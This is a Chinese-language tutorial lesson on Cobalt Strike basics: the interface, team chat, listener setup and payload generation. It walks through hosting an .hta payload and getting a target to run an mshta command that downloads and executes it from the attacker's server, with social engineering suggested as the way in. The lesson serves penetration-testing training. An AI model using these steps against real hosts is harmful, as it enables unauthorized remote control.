# 网络安全入门：P57：CobaltStrike常用功能一





在本节课中，我们将学习CobaltStrike（CS）的基本操作，包括界面认识、多客户端通信、监听器配置以及生成并投递木马使目标上线。我们将通过简单的步骤，让初学者能够理解并实践这些核心功能。



## 快捷工具栏介绍

上一节我们介绍了CS服务端与客户端的搭建。本节中，我们来看看CS客户端的界面布局，特别是顶部的快捷工具栏。

不同版本的CS，其工具栏图标数量和位置可能略有不同，但核心功能是相似的。以下是对工具栏主要图标的说明：

*   **D1/D2（加号/减号）**：用于连接或断开与团队服务器的连接。
*   **耳机图标**：用于查看和管理监听器。
*   **服务器节点图标**：显示当前连接的服务器信息。
*   **会话列表图标**：展示所有已上线的受控主机会话。
*   **目标列表图标**：管理目标主机列表。
*   **凭据信息图标**：查看从目标主机收集到的各类凭据。
*   **下载文件图标**：管理从目标主机下载的文件。





网络安全的学习建立在大量练习的基础上。仅听课而不动手操作，很难真正掌握。建议课后多点击、尝试这些功能，熟悉界面。

## 多客户端通信

CS支持多个客户端连接同一台服务器，实现团队协作。连接方法是在客户端启动时，填写正确的服务器IP、端口、用户名和密码。

连接成功后，不同客户端之间可以进行通信：

*   **公共聊天**：在输入框中直接发送消息，所有在线用户都能看到。
*   **私人消息**：使用特定命令向指定用户发送私信。命令格式为：`/msg [用户名] [消息内容]`。例如，`/msg 大白 你好`。



## 监听器配置





CS的所有操作，如生成木马、控制目标，都依赖于监听器。监听器是CS接收目标主机回连信号的“耳朵”。

以下是添加一个监听器的步骤：

1.  点击工具栏的“耳机图标”，进入监听器管理界面。
2.  点击下方的 **Add** 按钮。
3.  在弹出的窗口中，设置监听器参数：
    *   **Name**：为监听器命名，例如“test_listener”。
    *   **Payload**：选择监听器类型。CS支持多种类型，如HTTP、HTTPS、DNS等。初学者可选择默认的 **windows/beacon_http/reverse_http**。
    *   **HTTP Hosts**：点击右侧加号，自动填入服务器IP地址。
    *   **HTTP Port (C2)**：设置监听端口。为避免冲突，建议不使用80端口，可自定义如 **8080**。
4.  点击 **Save** 完成配置。

监听器是后续生成木马的关键，必须正确配置。



## 生成有效载荷（木马）

配置好监听器后，下一步是生成能让目标主机连接回来的程序，即“木马”或“有效载荷”。

在CS菜单栏点击 **Attacks** -> **Packages**，可以看到多种生成方式：

*   **HTML Application**：生成`.hta`格式的木马，通常用于钓鱼攻击。
*   **MS Office Macro**：生成Office宏病毒，嵌入Word、Excel等文档。
*   **Payload Generator**：生成多种编程语言（如C、Python、PowerShell）格式的载荷代码。
*   **Windows Executable**：直接生成`.exe`可执行文件。
*   **Windows Executable (S)**：生成`.exe`文件，并附加混淆或免杀功能（效果有限）。

## 使目标上线演示

我们以生成一个`.hta`木马并让目标运行为例，演示完整的上线流程。



**第一步：生成木马**
1.  选择 **Attacks** -> **Packages** -> **HTML Application**。
2.  在弹出的窗口中，选择之前配置好的监听器（如`test_listener`）。
3.  选择输出格式，例如 **PowerShell**。
4.  点击 **Generate**，将生成的`.hta`文件保存到本地（如桌面）。



**第二步：托管木马文件**
1.  在CS菜单栏点击 **Attacks** -> **Web Drive-by** -> **Host File**。
2.  点击 **Browse**，选择刚才生成的`.hta`木马文件。
3.  设置一个本地端口（如 **9090**），用于提供文件下载。
4.  点击 **Launch**，CS会生成一个用于下载该木马的URL。

**第三步：在目标主机执行命令**
1.  通过任何方式（如社会工程学）让目标主机执行一条命令。对于`.hta`文件，Windows系统自带`mshta`程序可以执行它。
2.  命令格式为：`mshta http://[你的服务器IP]:9090/[文件名].hta`
    *   例如：`mshta http://192.168.1.10:9090/payload.hta`
3.  当目标主机执行此命令后，它会从我们的CS服务器下载并运行木马程序。



**第四步：查看上线主机**
如果一切顺利，目标主机将出现在CS客户端的 **会话列表（Sessions）** 中。这意味着该主机已成功“上线”，我们可以对其进行进一步的操作和控制。



本节课中我们一起学习了CobaltStrike的界面布局、多客户端通信、监听器配置、木马生成以及一个完整的“上线”流程演示。理解并实践这些基础功能，是掌握CS进行渗透测试和安全演练的第一步。请务必在授权的实验环境中进行练习。